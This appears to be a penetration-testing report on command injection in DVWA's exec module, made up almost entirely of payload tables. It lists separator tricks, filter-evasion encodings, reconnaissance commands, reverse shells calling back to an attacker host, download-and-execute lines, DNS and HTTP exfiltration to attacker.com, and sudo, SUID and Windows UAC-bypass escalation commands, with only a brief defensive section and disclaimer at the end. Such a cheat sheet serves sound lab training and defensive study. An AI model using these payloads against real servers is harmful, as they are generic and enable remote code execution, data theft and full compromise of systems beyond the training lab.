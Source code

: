 # DVWA Command Injection Exploitation: In-Depth Research Report

---

## 1. Vulnerability Mechanic (DVWA "exec" Module - Low Security)
- **Function:** The `ip` parameter in DVWA's command injection module is directly concatenated into a shell command (e.g., `system("ping -c 1 " . $ip)`) with no sanitization. The invoked shell is `/bin/sh` on Linux.
- **Environment:** Runs as Apache `www-data` on Debian with default PATH, in DVWA root directory. Hardcoded ping flag: `-c 1` (send 1 packet).
- **Exploitability:** Any shell metacharacter (`|`, `;`, `&&`, etc.) in `ip` will result in arbitrary command execution and output, leading to immediate RCE.

---

## 2. Operator/Separator Reference: Linux and Windows
| OS      | Operator  | Description     | Example Payload  |
|---------|-----------|----------------|-----------------|
| Linux   | `;`       | Chain; always  | `127.0.0.1; id` |
| Linux   | `&&`      | Chain if true  | `127.0.0.1 && id`|
| Linux   | `|`       | Pipe           | `127.0.0.1 | whoami`|
| Linux   | `$(...)`  | Substitution   | `127.0.0.1; echo $(id)`|
| Windows | `&`       | Chain; always  | `127.0.0.1 & whoami`|
| Windows | `&&`      | Chain if true  | `127.0.0.1 && whoami`|
| Windows | `|`       | Pipe           | `127.0.0.1 | findstr user`|
| Windows | `^`       | Escape         | `127.0.0.1 ^& whoami`|

---

## 3. Command Injection Evasion Techniques (POST Input)
- **Percent-Encoding:** `ip=127.0.0.1%3Bwhoami` (`%3B` = `;`)
- **Double Encoding:** `ip=127.0.0.1%253Bwhoami` (server decodes twice, yields `;`)
- **${IFS} substitution:** `ip=127.0.0.1;${IFS}id` (`${IFS}` is Bash's space)
- **Backslash escaping:** `ip=127.0.0.1\;id`
- **Base64-encoded via bash:** `ip=127.0.0.1;echo Y3VybCBodHRwOi8vZGVtbw==|base64 -d|bash`
- **Null byte injection:** `ip=127.0.0.1;whoami%00`
- **Shell comments:** `ip=127.0.0.1; id #`

---

## 4. Reconnaissance/Enumeration Payloads
| Recon   | Linux         | URL-Encoded   | Windows            | URL-Encoded     |
|---------|--------------|---------------|--------------------|-----------------|
| User    | ; whoami      | %3B%20whoami  | & whoami           | %26%20whoami    |
| IDs     | ; id          | %3B%20id      | & net user         | %26%20net%20user|
| Sysinfo | ; uname -a    | %3B%20uname%20-a| & systeminfo     | %26%20systeminfo|
| Host    | ; hostname    | %3B%20hostname| & hostname         | %26%20hostname  |
| Files   | ; ls -la      | %3B%20ls%20-la| & dir              | %26%20dir       |
| Env     | ; env         | %3B%20env     | & set              | %26%20set       |
| Network | ; ifconfig    | %3B%20ifconfig| & ipconfig /all    | %26%20ipconfig%20/all|

---

## 5. Advanced Reverse Shell/File Transfer Payloads
| Payload    | Linux Example                                                | Setup                        | Notes          |
|------------|-------------------------------------------------------------|------------------------------|----------------|
| Bash rev.  | ;bash -i >& /dev/tcp/ATTACKERIP/PORT 0>&1                   | nc -nvlp PORT                | Stealth, filter-prone |
| Python     | ;python -c 'import...;s.connect((IP,PORT));...'/bin/sh -i'  | nc -nvlp PORT                | Python req.    |
| PHP        | ;php -r '$sock=fsockopen("IP",PORT);.../bin/sh -i'         | nc -nvlp PORT                | PHP req.       |
| Netcat     | ;nc IP PORT -e /bin/sh                                      | nc -nvlp PORT                | nc req.        |
| wget/curl  | ;wget http://IP/file -O /tmp/file;chmod +x /tmp/file;/tmp/file| python3 -m http.server PORT | HTTP download  |
| Windows PS | & powershell -Command TCP socket shell (see details above)   | nc -nvlp PORT                | PS req.        |
| certutil   | & certutil -urlcache -split -f http://IP/f.exe f.exe & f.exe| Host HTTP server             | Windows native |

---

## 6. Blind/Time-based Injection / OOB Exfiltration
- **Sleep/Timeout:** `;sleep 5;` (Linux), `& timeout /t 5 &` (Windows)
- **Ping Delay:** `;ping -c 5 127.0.0.1` (Linux), `& ping -n 5 127.0.0.1 > nul &` (Windows)
- **DNS Exfil:** `;nslookup $(whoami).attacker.com;` (Linux), `& nslookup %USERNAME%.attacker.com &` (Windows)
- **HTTP Callback:** `;curl http://attacker/?data=$(id);` (Linux), `& curl http://attacker/?data=%USERNAME% &` (Windows)

---

## 7. Privilege Escalation Injection Payloads
| Type          | Linux Payload                            | Windows Payload                                                         |
|---------------|------------------------------------------|-------------------------------------------------------------------------|
| Sudo enum     | ; sudo -l                               | N/A                                                                    |
| Sudo shell    | ; sudo /bin/bash                        | N/A                                                                    |
| SUID search   | ; find / -perm -4000 -type f 2>/dev/null | N/A                                                                    |
| Kernel exploit| ; wget/curl exploit, chmod+x, run        | N/A                                                                    |
| UAC bypass    | N/A                                     | & reg add/ms-settings/fodhelper+start fodhelper.exe                     |
| UAC bypass    | N/A                                     | & reg add mscfile/shell/open/command d "cmd.exe" /f & eventvwr.exe      |

---

## 8. Reference Matrix (Unified View)

| OS      | Type            | Example Payload                                        | Encoded Variant              | Notes                  |
|---------|-----------------|-------------------------------------------------------|------------------------------|------------------------|
| Linux   | Operator        | ;id                                                   | %3B id                       | Chain and run `id`     |
| Linux   | Evasion         | ;${IFS}id                                            | %3B${IFS}id                  | Spaces via `${IFS}`    |
| Linux   | Recon           | ;uname -a                                            | %3B uname%20-a               | System info            |
| Linux   | Shell           | ;bash -i >& /dev/tcp/IP/PORT 0>&1                    | -                            | Reverse shell          |
| Linux   | Blind           | ;sleep 5;                                            | %3Bsleep%205%3B               | Timing-based detection |
| Linux   | Escalate        | ;sudo /bin/bash                                      | %3Bsudo%20/bin/bash           | Root shell if allowed  |
| Windows | Operator        | & whoami                                             | %26 whoami                    | Chain and run whoami   |
| Windows | Evasion         | & echo ^whoami                                       | %26 echo ^whoami              | Uses caret             |
| Windows | Recon           | & systeminfo                                         | %26 systeminfo                | System details         |
| Windows | Shell           | & powershell TCPClient rev shell (see above for full)| see above                     | Reverse shell          |
| Windows | Blind           | & ping -n 5 127.0.0.1 > nul &                        | %26 ping -n 5 127.0.0.1 > nul | Timed response        |
| Windows | Escalate        | & reg add...fodhelper... & start fodhelper.exe       | see above                     | UAC bypass             |

---

# Usage & Defensive Considerations
- **Critical:** All techniques above trivially lead to RCE in DVWA's exec (low) context. Exploiting this in production could fully compromise the web server.
- **Abuse Prevention:** Use safe APIs (never `system`, `exec`, etc. with untrusted input), enforce strict input validation, employ allowlists for OS commands, and run with least privilege.
- **Detection:** Monitor web logs for suspicious payload patterns, inspect decoded inputs, and alert on unexpected outbound connections.

---

This report is ready for advanced penetration test operations, red teaming, and blue team defense preparation. All payloads should only be used in authorized, legal scenarios.
